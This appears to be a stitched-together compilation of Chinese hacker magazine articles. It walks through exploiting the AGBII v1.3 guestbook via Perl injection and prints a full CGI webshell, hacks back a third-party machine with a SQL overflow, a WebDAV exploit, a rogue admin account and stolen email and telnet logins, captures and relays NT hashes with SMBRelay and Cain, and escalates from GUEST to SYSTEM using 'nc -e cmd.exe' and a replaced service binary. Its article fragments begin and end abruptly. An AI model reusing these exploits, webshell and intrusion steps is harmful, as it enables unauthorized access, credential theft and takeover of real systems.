文章到这里就结束了！在以后的时间里，你同样可用这个办法来监测新的蠕虫病毒感染的机器，用不同的方法进入，真正做到守罐待鸡！

## 守罐待鸡

## 入侵 AGBII v1.3 留言本

### 图文详解

先说一下写这篇文章的原因。前几天，xhacker（大家可能都知道他是谁了）的站点让人黑掉，真大快人心呀！在自己站点被黑的页面上，xhacker 还给入侵者留一句话：有能耐黑了我的留言板呀。我当时在看热闹，一时兴起，就在 xhacker 的留言板上留他的名发了几个帖子。可没想到这家伙报复心太强，几天后就把我放在 51.net 的论坛黑掉了。

我仔细分析了一下，知其是先入侵了我的留言板，得知我的留言板密码，而我的留言板密码恰和论坛的管理密码又一样。我的留言板是 AGBII v1.3 美化而来，此留言本在网上也极为流行，目前版本为 1.5。我在 QQ 上问 xhacker 入侵这个留言本的方法，他怎么也不肯说，没事，我自己来。

通过两天的分析，我终于找到了这个留言板的漏洞，现总结一下在 Win2k 和 51 的 freebsd 系统下不同的入侵方法。

### 一、“W2k+IIS5.0+perl.exe 映射”环境下入侵的方法

我在本机上装了一个 AGBII v1.3 留言本。我们先留一个言，标题为“@ARGV;#”，名字为“;system”（注意没引号），其他的你就随便写了（图 1）。留言完后内容如图 2 所示。


注意看第 3 条留言。AGBII v1.3 留言本所有的留言都是以 `$number.pl` 放在“/留言本目录/data/留言本用户名/”这个目录下的。看图 1、图 2 可得知，留言本目录为 `/book/`，留言本用户名是 lcx，所以我们第 3 条留言的 url 就是 `http://127.0.0.1/book/data/lcx/3.pl`。那执行一下看看效果吧（图 3）！哈哈，得到了一个 shell。而留言本管理的源码就放在 `/留言本目录/user/用户名.cgi` 目录里。


我们执行 `http://127.0.0.1/book/data/lcx/3.pl?type+d;\book\user\lcx.cgi` 就可以看到 lcx 用户的密码了。从图 4 中，我们可以看到用户名为 lcx，密码是 123。

在这种环境下还有一种方法。上边我们用到的是 perl 的 system 函数，我们同样还可用 rename 函数来看用户密码。留一个言，标题为：`("user\lcx.cgi","user\lcx.txt");#`，名字为：“rename”，其他随便写。如果这是我们的第 4 条留言，我们执行 `http://127.0.0.1/book/data/lcx/4.pl`，就会把 user 目录下的 lcx.cgi 改名为 lcx.txt，然后我们执行 `http://127.0.0.1/book/user/lcx.txt`，就可看到密码了。不过，这种方法会把留言本损坏，无法显示，但我们可提前留两条言，另一条标题为：`("user\lcx.txt","user\lcx.cgi");#`，名字为：“rename”。执行一下这条留言的 pl，再把 lcx.txt 改回为 lcx.cgi。

> **LOOK 注意**：以上两个方法只是在 perl.exe 映射时才能成功，以 perlis.dll 做映射的情况下不会成功。

### 二、在 Unix 环境下

在 Unix 环境下，以上两种方法就不会成功了。因为，在 Unix 环境下，你要给 `*.pl` 和 `*.cgi` 文件设定一定的权限才行，一般要将文件属性改为 755，pl 文件和 cgi 才能执行。我们怎么办？看到没有，这个留言本还有一个免费申请功能。我们申请一个来看看吧！哈，功能真强大，用申请到的用户登录后发现，居然还有一个超级管理的功能。再输入我们申请时的用户名和密码，进入超级管理页面，里边有一个编辑留言本模板功能（图 5）。由于 51 的留言本我已删除，所以我只好在本地上抓图了 :)

可能你也想到了，我们可在这里写入一个 cgi 网页后门。这里有一个 envymask 写的，代码如下（为免去大家输入的麻烦，大家可在光盘中找到这段代码）：


图 5

```perl
#!/usr/bin/perl
print "Content-type: text/html\n\n";
print <<EOF;
<html><head><title>no system function cgi shell</title></head>
EOF
;
if(read(STDIN,$POST,$ENV{'CONTENT_LENGTH'})){
@pair=split(/&/,$POST);
########## traslation code ##########
foreach (@pair) {
$_ =~ s/\+//g;
($name,$value)=split(/=/,$_);
$name=~s/%([a-fA-F0-9][a-fA-F0-9])/pack("C",hex($1))/eg;
$value=~s/%([a-fA-F0-9][a-fA-F0-9])/pack("C",hex($1))/eg;
$FORM{$name}=$value;
}
########## dir command ##########
if($FORM{dir} ne ""){
if($FORM{dir} =~ /\/) {
$FORM{dir}=$FORM{dir}."";
$FORM{dir}=~ s/\/\/g;
}if($FORM{dir} =~ /\//) {
$FORM{dir}=$FORM{dir}."/";
$FORM{dir}=~ s/\/\//\//g;
}
@dir=glob("$FORM{dir}*");
print <<EOF;
$FORM{dir}<br>
<textarea cols=80 rows=18>
EOF
foreach (@dir) {
$filesize=(-s $_);
if(-f $_){
print "\t$filesize\t$_\n";
}
if(-d $_){
print "\<DIR\>\t$filesize\t$_\n";
}
}
print <<EOF;
</textarea>
EOF
}
########## type command ##########
if($FORM{type} ne ""){
if(-e "$FORM{type}"){
open(TYPE,"$FORM{type}");
@content=<TYPE>;
close TYPE;
print <<EOF;
$FORM{type}<br>
<textarea cols=80 rows=18>
@content
</textarea>
EOF
}
else{
print <<EOF;
<br><font color=red>
file $FORM{type} dose not exist!!
</font><br>
EOF
}
}
########## copy command ##########
if(($FORM{copyfrom} ne "")&&($FORM{copyto} ne "")){
if(-e "$FORM{copyfrom}"){
open (FROM,"$FORM{copyfrom}");
open (TO,">$FORM{copyto}");
```

## 你最喜欢的文章

```perl
@file=<FROM>;
print TO @file;
close FROM;
close TO;
if((-e "$FORM{kopyto}") && (-s "$FORM{kopyto}")) {
  print <<EOF;
<br><font color=red>
copy $FORM{kopyfrom} to $FORM{kopyto}
successful!!!
</font><br>
EOF
}
else{
  print <<EOF;
<br><font color=red>
file $FORM{kopyfrom} does not exist!
</font><br>
EOF
}
}

########## rename command ##########
if(($FORM{renamefrom} ne "") && ($FORM{renameto} ne "")) {
  if(-e "$FORM{renamefrom}") {
    rename("$FORM{renamefrom}", "$FORM{renameto}");
    if(-e "$FORM{renameto}") {
      print <<EOF;
<br><font color=red>
rename $FORM{renamefrom} to $FORM{renameto}
successful!!!
</font><br>
EOF
    }
  }
  else{
    print <<EOF;
<br><font color=red>
file $FORM{renamefrom} does not exist!
</font><br>
EOF
  }
}

########## delete command ##########
if($FORM{del} ne "") {
  if(-e "$FORM{del}") {
    unlink ("$FORM{del}");
    if(!(-e "$FORM{del}")) {
      print <<EOF;
<br><font color=red>
delete $FORM{del} successful!!
</font><br>
EOF
    }
  }
  else{
    print <<EOF;
<br><font color=red>
file $FORM{del} does not exist!!!
</font><br>
EOF
  }
}
```

```perl
EOF
}

########## write command ##########
if($FORM{submit2} eq "write") {
  @sb=split(/\n/, $FORM{text});
  open (WRITETO, ">$FORM{writetofile}");
  foreach (@sb) {
    chomp $_;
    print WRITETO "$_\n";
  }
  close WRITETO;

  if(-e $FORM{writetofile}) {
    print <<EOF;
<br><font color=red>
write to $FORM{writetofile} successful!!!
</font><br>
EOF
  }
}

###########################################################

foreach (keys %FORM) {
  if ($_ eq "submit1") {

    print <<EOF;
<form action="" method="POST">
write:<br>
<textarea name="text" cols="80" rows="20"></textarea><br>
to:<br>
<input type="text" name="writetofile" value="" size=45><br>
<input type=submit name="submit2" value="write">
<input type=reset name="reset" value="reset">
</form>
EOF

  }
}

print <<EOF;
<form action="" method="POST">
dir:<input type=text name="dir" size="46" value=""><br>
type:<input type=text name="type" size="46" value=""><br>
copy:<input type=text name="kopyfrom" size="20" value="">
to:<input type=text name="kopyto" size="20" value=""><br>
rename:<input type=text name="renamefrom" size="20" value="">
to:<input type=text name="renameto" size="20" value=""><br>
del:<input type=text name="del" size="46" value=""><br>
EOF
```

```html
<input type=submit name="submit" value="OK">
<input type=reset name="reset" value="reset">
<input type=submit name="submit1" value="write">
<br>
</form>
EOF
print <<EOF;
<br><br>
<div align="center">
code by:<a href="mailto:130N@21cn.com">Envymask</a><br>
<a href="http://envymask.3322.org">Envymask's web site</a>
</div>
EOF
exit;
```

了。心细的你又会说，你用这个 CGI 后门不知其网站物理路径，如何管理网站文件呢？我也有办法，按同样办法再申请一个留言本，管理登录后再编辑一个 template.cgi 文件，而这个文件的内容就是一个 CGI 探针的内容。如果你不明白探针是什么，我这儿做了一个（http://smallhome.51.net/cgi-bin/env.cgi）。最后，我要说明的是，这个方法在 Win2k 下也同样适用，而且更有效，威力更大，它就不限于用 perl.exe 还是 perlis.dll 做映射了。


图 6

写入后，我们如何知道它是哪个文件呢？这也有规律，它就是 \留言本目录\data\你申请的用户名\template.cgi 这个文件。

然后，我们执行 http:\ip\留言本目录\data\你申请的用户名\template.cgi，就可得到一个网页后门了。且慢，你不是说在 Unix 下，文件要改权限才能执行吗？哈哈，而 51 的服务太好了，它的 FreeBSD 系统是自动探测文件权限的，不需要修改。我想，当时 xhacker 入侵时，他肯定也没想到这点。先看看图 6，这个网页后门如何，由于 51 的留言本我已删，所以我在本机上抓个网页后门的图意思一下。

经我测试，这个 CGI 文件在 51 空间上一样工作良好。剩下的工作，我们当然是利用这个网页后门来看 user/管理员.cgi 文件。

全文说的是入侵这个 AGBII v1.3 留言本。其实，我们完全可通过这个 AGBII v1.3 留言本来入侵整个站点。至于如何入侵，就看你的了。

（注：我文章中提到的那个 CGI 后门和我收集的另外一个 CGI 后门在光盘中有下载）


钟毅榕

就去看了（MM 的警惕性就是没有同胞的高啊）。这样看来，毫无疑问，是中了主页木马。幸亏发现得早，不然就麻烦了（被大名鼎鼎的冰河控制住可不是好玩的哦，一不小心就成了人家的肉鸡了）。


图 1

### 一、不幸中木马

本人虽不是高手，但也算是菜鸟一只。俗话说得好，智者千虑，必有一失。长期从事入侵实践的我，却怎么也没想到自己也会有被人黑的时候。事情的发生是这样的：一天，我像往常一样打开电脑，然后拨号上网。谁知道刚刚和一个 MM 聊了没多久，天网防火墙便弹出一个警告，说有应用程序企图访问我的 7626 端口。我晕！7626 端口不是我以前学习黑客技术使用的第一只木马的默认端口吗？一个不祥的预感浮现在我的脑海：莫非中马了？！

于是赶紧下线，进入 CMD，敲入“Netstat -an”，其中可以看到：

### Active Connections

| Proto | Local Address | Foreign Address | State |
| :--- | :--- | :--- | :--- |
| TCP | 127.0.0.1:7626 | 127.0.0.1:0 | LISTENING |

用国产的“木马克星”扫了一下，结果如图 1 所示，果然中招了。不过到底是怎么中招的呢？我平时上网可是预防措施做得足足的啊，后来问了一下我老姐，她告诉我昨天她上 QQ 时，为释放一下紧张的系统资源，就把防火墙给关了。后来有一个陌生人发了一个漫画网址给她，她没多想就去看了。

### 二、等待入侵者

不过，居然被人踩到头上来了，心里始终觉得不爽。最近不是流行“冰河陷阱”吗？呵呵，我刚刚才下了一个最新的 V1.2 版本呢！这下有戏看了。

首先，对冰河陷阱进行一番配置，至于怎么配置大家可查看上一期“黑客 X 档案”中木头写的“图解冰河陷阱”。我虚构地配置机器为 2.5G 的 CPU，1G 的内存（就不信他不流口水！），接着打开冰河陷阱，一边继续和 MM 聊天，一边等待着入侵者的出现……

### 三、反黑行动

过了 15 分钟左右，打开的冰河陷阱就开始有动静了，托盘里的图标不停地闪烁。好，先看看他想做什么，要是他知道我正在监视着他的一举一动，不知会有什么反应呢，哈哈~可恶，这家伙开了我的共享还不算，居然还想上传一个名为“pcghost.exe”的文件给我（图 2）。


Pcghost？嗯，这个我知道，不就是键盘幽灵嘛（光盘中有收录）！难道这家伙也想像“黑客 X 档案”前几期的“利用击键进行渗透”的作者那样，对我的机器进行渗透不成（莫非他也是《X 档案》的忠实读者？！呵呵）？

接着，看了看这家伙的 IP 所在地，是上海的，扫了一下，漏洞居然一个也没有，只开放了 3389、1433、21 和 80 端口。既然他开了 80 端口，那他应该有个人网站吧，在浏览器里面输入他的 IP，发现其是一间普通公司的网站。

于是我心想，看来这 80% 只是一只可怜的小肉鸡罢了（而且后面的行动也证明了我的猜想是对的）。

没办法，这入侵者还算聪明，懂得找肉鸡，那看来我要想找到他的话，也只有进入肉鸡看看了。不过从刚才的扫描结果已经知道普通的漏洞不可以利用。

“唔……我想那个肉鸡的管理员不会那么厉害吧，把系统修补得那么密不透风。唉，这入侵者也真是的，找到肉鸡后还要帮人家打上补丁，害得我们茫茫网海中又少了一台肉鸡来给菜鸟们练手了 ^_^。”

不过，我估计 1433 和 80 应该是肉鸡本身的服务需要所开着的，而 3389 和 21 端口是他为方便控制肉鸡而开的。

试着看看有没有 MSSQL 漏洞，这里需要用到 nc.exe 和 lion 专为 SQL 漏洞写的 sql2.exe（光盘收录有 SQL2.EXE）。打开一个 CMD 窗口，输入：

```text
c:\>nc -l -p 56
```

参数“-l”表示让 nc 监听本地端口，加上“-p 56”表示监听本机上的 56 端口。

这时，nc 便开始监听本机的 56 端口，如图 3 所示。然后再打开一个新的 CMD 窗口，输入：

```text
c:\>sql2 218.79.xxx.28 211.154.xxx.94 56 2

Packet sent!(发送成功)
```


- **小提示**：sql2.exe 的用法是：sql2.exe 要攻击的主机 IP 或域名 开了 nc 监听的本机 IP 或域名 nc 监听的端口 被攻击主机的补丁版本。

不过很可惜，试了几次都没有溢出成功，看来这台肉鸡连这个漏洞也补上了。

接着本想用暴力破解对方 21 端口的 FTP 密码，不过既然对方也开了 80 端口，那不如试试最近很流行的 WebDAV 漏洞。用 WebDAV 专用的漏洞扫描器扫了一下那只肉鸡，Yeah~，果然存在这个漏洞（图 4）。接着在 CMD 下输入：

```text
D:\>webdav 218.79.xxx.28
send buff...
telnet target 7788
```


如图 5 所示，Telnet 上对方的计算机，并增加一个 rickyboy 账号：

```text
D:\>telnet 218.79.xxx.28 7788
Microsoft Windows 2000 [Version 5.00.2195]
C:\WINNT\system32>net user
```

```text
rickyboy ricky43 /add
命令成功完成。
C:\WINNT\system32>net localgroup administrators rickyboy /add
命令成功完成。
```


OK！登录上那台肉鸡的 3389，再用肉鸡自身管理工具中的终端服务管理器查看了一下，发现只有我一人在。不过我想既然对方开了 3389，就应该不会用 Telnet 来登录了。于是写了一个可记录 3389 登录的 38log.bat 文件，内容如下：

```batch
@echo off
rem 3389log.bat
:Log
date /t >> c:\winnt\system32\38log.log
time /t >> c:\winnt\system32\38log.log
netstat -an | find "3389" | find "ESTABLISHED" >> c:\winnt\system32\38log.log
goto Log
```

把这个 bat 文件放到 C:\WINNT\system32\Grouppolicy\User\Script\Logon 下面，然后在“开始”菜单的“运行”中输入“gpedit.msc”，进入组策略编辑器，选择“用户配置→Windows 设置→脚本”，在右边的窗口中双击“登录”，最后选择“添加”把刚才的批处理文件添加好。下次那个人侵者再用 3389 登录这台肉鸡时，这个批处理文件便会记录下他的 IP 地址。嘿嘿！接下来别忘了清除日志走人。

### 四、收获成果

第二天，登录上那台肉鸡，查看了一下 38log.log 记录文件，里面果然记录下了他的登录 IP，扫了一下这个 IP，漏洞倒没发现，不过发现入侵者居然是和我在一个城市，寒……

不过，现在只知道了他的 IP 地址好像也没什么用。

仔细想了想，那家伙被我用冰河陷阱监视时，不是想放一个“键盘幽灵”到我的机器上吗？我估计他也该会在那台肉鸡上作同样的行为，于是我在肉鸡上按住 Alt 键，再连按 F12 键两次（这是键盘幽灵的默认热键）。哈哈！果然如此，不过他为键盘幽灵设置了密码（图 6），我进入不了这个软件。


图 6

不要紧，我的“兵器库”里有个“幽灵克星”小软件（光盘里有收录），可直接读取键盘幽灵的所有设置。于是赶紧把这个软件找出来，上传到那台肉鸡上运行。哈哈！这下他的邮箱和密码都暴露在我的眼前了！如图 7 所示。

我们可以看到他用来接收键盘记录的是 163 的收费邮箱，立刻用幽灵克星中显示的账户和密码登录他的邮箱。一看吓了我一跳，这家伙攻下的肉鸡一大堆呀！估计都是被那个主页木马害的，这下可乐昏我了。


图 7

再仔细看了一下，里面有封新到的邮件，里面记录的居然就是我昨天与刚才的操作！好险啊，差点又中招了！我立刻终止运行了键盘幽灵，并且改了他的邮箱密码（谁叫他那么心狠手辣）。

### 五、友好结局

本来做到这里，我想收手的了。不过我不经意看了一下他放到肉鸡上的键盘幽灵的激活密码，发现这个密码居然很复杂，心想这个密码应该非常重要！啊？从刚才对他的扫描结果知道他开放了 telnet 服务（这家伙还有两下子，其他服务一样都没有开），该不会这是他的密码吧！

立刻 telnet 上他的 IP，用户输入“loveboy43”，密码输入“r#k%o^%”，哈哈，居然登录成功了！

好了，也不要玩得太过分了，对于和我一样的同道中人，被别人进入自己机器已经是很大的耻辱了。于是，我在 C:\ 下写了一个文本文件给他：

```text
C:\>copy con 哈哈，我进来了!txt
HI,
我是被你用冰河控制的那个人,
想拿回你的收费邮箱密码吗?
和QQ(本人QQ号)联络吧!
再见了,哈哈~~!
^Z
1 file(s) copied
C:\>
```

第二天，便有一个叫 MidHacker 的人上 QQ 找我要邮箱密码来了，呵呵……

## 利用网页陷阱 获取 NT 散列

雪莲蓬

最近看到一些关于利用网页抓取 Win2000 和 WinXP 密码散列的文章，出于好奇，自己也尝试了一下。真是不试不知道，一试吓一跳！这里我就来详细讲一下我的测试过程和防御方法。

### 一、什么是 SMB

首先，我们来了解一下什么是 SMB？SMB 是一个通过网络在共享文件、设备、命名管道和邮槽之间操作数据的协议，基于 TCP/IP、NetBEUI、DECNet 和 IPX/SPX 协议之上。通过 SMB 进行认证的客户端一般都要先使用 SMB 的协商命令发送客户端支持的认证协议给服务器，服务器则选择其中的一个，然后返回给客户端，客户端再使用 SMB 的会话设置进行认证和登录。怎么样才能得到对方的散列呢？当 Windows 进行信息验证时，会自动使用系统当前的用户账号信息去进行验证，这里面的信息就包含了我们需要的数据。大家是否还记得 TELNET 利用 NTLM 的方式不输入密码登录的过程呢？这就是因为 Windows 进行信息验证时，自动使用系统当前的用户账号信息去进行验证的结果。好了，介绍到这里，大家都应该有个概念了。现在，我们来看看实现的过程。

要得到对方的散列，必须要求对方在我们发送验证信息。本文介绍的是利用网页来得到验证信息。所以，我们先要做一个特殊的网页。网页的主要内容如下：

```html
<html>
<title>HASH</title>
<p><p align=center>
<meta http-equiv="refresh" content="1;URL=\\61.183.54.7">
</body>
```

这个网页的关键句子就是 `<meta http-equiv="refresh" content="1;URL=\\61.183.54.7">`，它在被打开 1 秒钟后，会自动跳转到 `\\61.183.54.7\\`（61.183.54.7 是我公网上的 IP），相当于使用了命令 `NET USE \\61.183.54.7\\`。这样，就会造成对方向我发送一个验证的过程，这个过程里包含了他当前用户的散列。这正是我们想要的。

由于我是在局域网环境做的测试，所以这里我们简单介绍一下局域网的设置。61.183.54.7 是网关路由器，其中 139、445、80 等端口都映射到了 192.168.0.2 上。然后所有的机器和路由器都由一个 HUB 连接。测试机器的 IP 是 192.168.0.4，192.168.0.2 是 smbrelay 绑定的 IP。大概情况就是这样，现在我们就开始吧！

### 二、SMBRelay 用法简介

SMBRelay 是这样一个软件：它能接收从 139 端口进入的连接信息，然后回连到## 你最喜欢的文章

发起这个连接的机器的 139 端口，接着代理服务器和客户端之间的所有数据，并在必要时修改相关数据。

使用方法：SMBRelay [参数]

### 参数

- /D num - 设置调试等级。默认是 0，可用参数值还有 1、2。
- /E - 列举网卡接口和参数。
- /IL 数字 - 当添加局域网 IP 地址时，将接口参数设置为可用。
- /IR 数字 - 当添加代理 IP 地址时，将接口参数设置为可用。默认为 1。使用 /E 来显示适配器参数。
- /L[+]IP - 当 NETBIOS 连接数据流入时，设置局域网 IP 为可监听。使用 (+) 可首先将 IP 地址加入到 NIC 中，默认为当前主机 IP。
- /R[-]IP - 设定代理 IP 地址的起始端。使用“-”是为了设置第一次在 NIC 中添加的 IP 地址，默认是 192.1.1.1。
- /S 名称 - 设置原机器名称。默认为 CDC4EVER。

### 三、系统设置

停用本地网络设备的“网络的文件和打印机共享”（图1）


### 四、利用网页陷阱获取 NT 散列

使用命令 SMBRelay /e 查看网卡参数：

```
SMBRelay v0.981 - TCP (NetBT) level SMB man-in-the-middle relay attack
Copyright 2001, Sir Dystic, Cult of the Dead Cow
Send complaints, ideas and do-nations to sirdystic@cultdeadcow.com
[1000003] ETHERNET CSMACD - NDIS 5.0 driver
```

#### [1] SOFTWARE LOOPBACK MS TCP Loopback interface

我的参数是 [1000003]，得到网卡参数后使用如下命令开始监听（图2）。

```
smbrelay /IL 1000003 /IR 1000003 /L+ 192.168.0.2 /R- 192.168.0.2
```


为什么要绑定 192.168.0.2 这个 IP 呢？SMBRelay 的说明文件上有这样一段：如果系统一直使用 139 端口，SMBRelay 将不能正常绑定 139 端口工作，因为 Microsoft 有一套系统自我保护机制。解决这个问题最简单的方法是使用 /L+ 参数来建立一个新的 IP 地址在我们自己的 NIC（网络接口卡）上，并且你的目标将先连接这个新建的 IP，而不是你的真实 IP。另一种方法是在控制面板中手动添加一个 IP 地址，然后使用 /L 来指定这个 IP 地址。这里还有一个问题，如果系统存在任何 139 端口连接，smbrelay 很可能不能正常工作。为解决这个问题，我采用了使用 Cain 来抓取局域网中的 SMB 的办法（图3）。


> LOOK：注意左上角黑框中的图标就是打开嗅探的按钮。

现在一切都准备好了，连接肉鸡打开主页，这时 SMBRelay 的窗口有动静了（图4）。


我们可以看到对方的散列已被 SMBRelay 抓到。这样抓到的散列是得不到密码的，但也有它的用途，我们后面再介绍。怎样得到他的密码呢？看看 CAIN 的窗口吧（图5）！


看！CAIN 也抓到了一个散列，一般简单的密码 CAIN 就可解出来。将抓到的散列移到 Cracker（图6）。


移过去后，可以使用 start dictionary attack 或者 start brute-force attack 来破解（图7）。


一般用户的密码它们都可破解出来，比如现在抓到的这个破解了 5 分钟以后，出现图8的结果。密码出来了吧！当遇到复杂密码时它就破解不出来了，但 CAIN 支持将散列保存为 lc 格式的存档。在 Cracker 栏里点鼠标右键，弹出菜单选择 Export（图9）。


存为 lc 格式的文件后，我们可使用 lc4 来破解。打开 lc4，选择从 lc 文件导入（图10）。


同样，几分钟后密码也被解出来了，这里我们就不详细讨论了。在图4时我说过 SMBRelay 抓获的散列得不到密码，但有其他用途，究竟是什么用途呢？不急，看下面！

### 五、利用散列长驱直入

按图4处说起，对方的散列已被 SMBRelay 抓到后，在本地打开一个 cmd 窗口。使用命令：`net use \\192.168.0.2`（图11）。


看到了吗？映射成功了！查看一下 c$ 是什么吧，`dir \\192.168.0.2\c$`（图12）。啊！其实是肉鸡的 c 盘。没错，因为 SMBRelay 的转发，对于本机来说，192.168.0.2 就是肉鸡；对于肉鸡来说，192.168.0.2 就是本机。SMBRelay 起到了一个中间人的作用，不知道这是不是网上流传的中间人第三方攻击？

### 六、总结

要防止散列被不怀好意的人获取，方法也很简单。根据 SMBRelay 运行过程来看，只要 139 端口不开放，SMBRelay 就不能得逞，所以屏蔽掉 139 端口是个不错的方法。我们可利用端口规则，也可利用防火墙。总之，怎么做就要看你的了。以上就是我测试的过程和结果，可能会有失误的地方。欢迎大家来 www.caiker.net 指出，我会在这里和大家交流这个问题。

- Cain v2.5
- BATE33
- SMBRelay.exe
- LC4
- winpcap
- （以上工具在光盘中收录）

## GUEST 提权

题信

### 本文关键词

- **GUEST 权限**——供来宾访问计算机或访问域的内置账户，权限较低，可进行读操作，不能删除文件，对敏感目录不具备访问权限。
- **SYSTEM 权限**——操作系统权限，某些地方甚至比 admin 的权限还要高，默认情况下对目录文件操作没有限制。

### 本文目的

如何提升基于 NTFS 分区格式的 GUEST 权限至 SYSTEM 权限。前几天，在某一论坛上看到有些朋友在讨论一个问题：关于 GUEST 用户在得到一个 SHELL 的前提下，如何提升权限。

这属于 BUG，顶多只能算一个默认策略的失误（这个问题下文将被称作“失误”）！但这个失误可以说是致命的。现在我们就以 Win2000 任意系统为例，以 GUEST 权限用户身份开始进入问题吧！

### 受影响的系统

- Microsoft Windows 2000 Advanced Server SP3
- Microsoft Windows 2000 Advanced Server SP2
- Microsoft Windows 2000 Advanced Server SP1
- Microsoft Windows 2000 Advanced Server
- Microsoft Windows 2000 Datacenter Server SP3
- Microsoft Windows 2000 Datacenter Server SP2
- Microsoft Windows 2000 Datacenter Server SP1
- Microsoft Windows 2000 Datacenter Server
- Microsoft Windows 2000 Professional SP3
- Microsoft Windows 2000 Professional SP2
- Microsoft Windows 2000 Professional SP1

### 策略失误的描述

首先，我们从 NTFS 格式谈起。NTFS 是微软 Windows NT 内核系列操作系统支持的一种特别为网络、磁盘配额、文件加密等管理安全特性而设计的磁盘格式。NTFS 支持文件加密管理功能，可为用户提供更高层次的安全保证。在 NTFS 分区上可以为共享资源、文件夹以及文件设置访问许可权限。许可设置包括两方面：一是允许哪些组或用户对文件夹、文件和共享资源进行访问；二是获得访问许可的组或用户可进行什么级别的访问。与 FAT32 文件系统相比，安全性要高得多。NTFS 的目录访问权限分为：读取、写入、读取及执行、修改、列目录、完全控制……

对几个系统文件夹都是进行只读保护的。不过，百密难免一疏，NTFS 在默认情况下，大多数文件夹对所有用户（Everyone 这个组）是完全敞开的（Full Control），本文就是针对“完全敞开”这个失误来完成本文中的关键实现。

GUEST 用户在默认设置的 NTFS 分区上，受限制只读的目录为：Documents and Settings、Program Files、WINNT、wwwroot。除此之外，所有目录 GUEST 用户都有可写权限。如果在可写目录中存在一个随用户登录后自动运行的文件，那么这个自动运行文件的权限将会继承当前登录用户权限。

### 2 SHELL 的获得

在开始时，我们首先要获得一个 SHELL，具体获得方法这里简单总结。获得 SHELL 的方法有很多种，目前常用的有 4 种。

- 通过弱口令获得
- ASPCODE 溢出
- 虚拟主页空间
- 从论坛拿到 MDB 文件

1. 通过弱口令获得：这个方法要求能探测到对方弱口令，并且对方开启了 TELNET 服务。满足条件后可建立同名账户并直接 TELNET 上去，从而得到一个 SHELL。

2. ASPCODE 溢出：该方法要求对方为 SP0~SP2 的系统。ASP 溢出后可自动创建通道得到 SHELL，不需要再开 TELNET。

3. 虚拟主页空间：获取主页上传权限后上传 ASP 文件，通过 IE 打开可得到一个 WEBSHELL。

4. 从论坛拿到 MDB 文件：这个方法需要较丰富经验，想办法拿到论坛数据库绝对路径，从而下载数据库文件；取得前后台的 MDB 后缀并解密；然后再上传修改配置好的 ASP 文件，最终通过 IE 打开 ASP 得到 WEBSHELL。

### 3 GUEST 权限的提升测试

本文是针对 NTFS 分区格式的服务器来做示范。首先你要得到一个低权限的 SHELL。

> 注意：如果你拿到的是 ADMIN 权限的 SHELL，就无需按本文步骤测试。

示例：上传 cmd.asp 得到 webshell，在本地开 tftp 服务上传 nc.exe，并在目标端执行 `nc -e cmd.exe` 回连，得到 cmdshell（图1）。


> 注意：cmd.asp 使用账号应避免使用默认弱账号。

> GUEST 组默认用 CMD ASP 得到的 SHELL 是一个 GUEST 权限的 SHELL。

在取得 GUEST 权限的 SHELL 后，先查看对方 C 盘根目录。

```
C:\>DIR
驱动器 C 中的卷没有标签。
卷的序列号是 A84B-E74E

C:\ 的目录
2003-01-16 15:20  BIOSDATE.TXT
2003-05-09 12:59  <DIR> Documents and Settings
2003-01-16 15:20  FIRST.TXT
2003-05-09 13:23  <DIR> Inetpub
2003-03-30 06:08  <DIR> lika.download
2003-01-21 14:32  <DIR> Program Files
2003-03-28 00:17  <DIR> WINNT
...
```

这是一个标准目录列表。接下来查看哪些目录可写。

```
C:\>MD C:\Docume~1\111
拒绝访问。

C:\>MD C:\Progra~1\111
拒绝访问。

C:\>MD C:\WINNT\111
拒绝访问。
```

看起来系统分区是 NTFS 格式。由于 NTFS 安全设置，默认自动运行程序不在 GUEST 用户可写目录中。可以从系统服务作为突破口，先用 `NET START` 查看自动服务。


从系统开启的服务中，我们发现了如下 3 个关键服务：

- DefWatch（诺顿病毒防火墙的一个服务）。
- Norton AntiVirus 客户端（诺顿病毒防火墙的客户端服务）。
- Remote Administrator Service（Radmin 远程桌面控制服务）。

这三个服务都不是 WINNT 的默认服务。文中分析了默认服务目录权限与 GUEST 权限之间的关系，并说明需要寻找第三方服务安装目录中可写的位置作为突破口。随后定位到 D 盘的 NavNT（Norton AntiVirus for NT）目录。


因为默认安全配置错误，文中继续分析 DefWatch 与 Norton AntiVirus 客户端调用的可执行文件路径，分别指向 `D:\NavNT\defwatch.exe` 与 `D:\NavNT\rtvscan.exe`。


接下来在获得 GUEST Shell 后，上传后门并通过重命名方式替换 `rtvscan.exe`，使服务启动时执行替换后的程序。


替换完成后，等待服务器重启，目标服务将以 SYSTEM 权限启动绑定后门程序，随后可通过指定端口回连。

对方重启后，使用 telnet 连接目标端口并输入密码，进入后门环境，确认路径并准备进行提权测试。


文中展示了在 CMD 提示符下执行提权命令的过程，并验证成功将测试账户加入管理员组。


经过一系列操作，作者成功由 GUEST 身份获取超级用户权限，并给出实验小结。

### 测试总结

总结强调：获取可用 SHELL、定位可写目录、并找到会随系统启动的目标程序是关键步骤。该类配置失误在部分服务器上具有普遍性，应尽快修补。

### 策略失误的防范

- 将磁盘分区转换为 NTFS，避免 FAT32 下权限控制缺失导致 GUEST 可写。
- 在“安全”配置中收紧 Everyone 等组的权限（原文后续内容续接下一页）。
- 安装软件时要注意：当这个软件有可执行文件随系统启动，或被注册为服务时，一定要安装在 Program Files 目录中。
- 使用 IP 策略改端口策略：尽量不要提供多余服务或开放不必要端口。
- 使用软件防火墙来拦截一切非授权端口或程序的主动、反弹式连接，阻止非法用户上传动作。

只允许读取，防止低权限用户对重要文件进行修改。经过上面的一些设置后，可以说基本能够防止类似入侵行为。不过，一个安全的服务器要做的不仅仅是这些。随着新漏洞不断产生，各种各样的入侵都是有可能的，做好日常维护、随时留意安全公告才是上上之策。

> 本文只是技术探讨，并不是教你怎么去入侵。任何入侵行为都是违反国家法律规定的，凡因本文产生的一切后果均与作者和杂志无关。


自从 WebDAV 漏洞的溢出工具公布后，看到不少朋友在问同一个问题：明明溢出成功了，为什么连接不上对方端口？根据这几个朋友提供的 IP，我也去看了看，发现目标服务器存在防火墙。溢出成功后端口确实打开了，但防火墙拒绝任何连接，所以造成了这种能溢出却不能连接的情况。后来有一次我自己也碰到一个类似目标，经过一番挣扎后，终于成功连接进去了。那我是怎么连接的？一起来看看吧！

### 一、遭遇

那天，我为了测试新出的 Webdavx3，就随便打了一个机器。开始一切都很顺利，溢出也和平时一样，在 0 处就停止了（图1）。按 Ctrl + C 终止连接后，立即 Telnet XXX.XXX.XXX.XXX 7788，在等待大约 1 分多钟后，出现如图2所示窗口。

> 经验：如何快速判断对方有没有防火墙？  
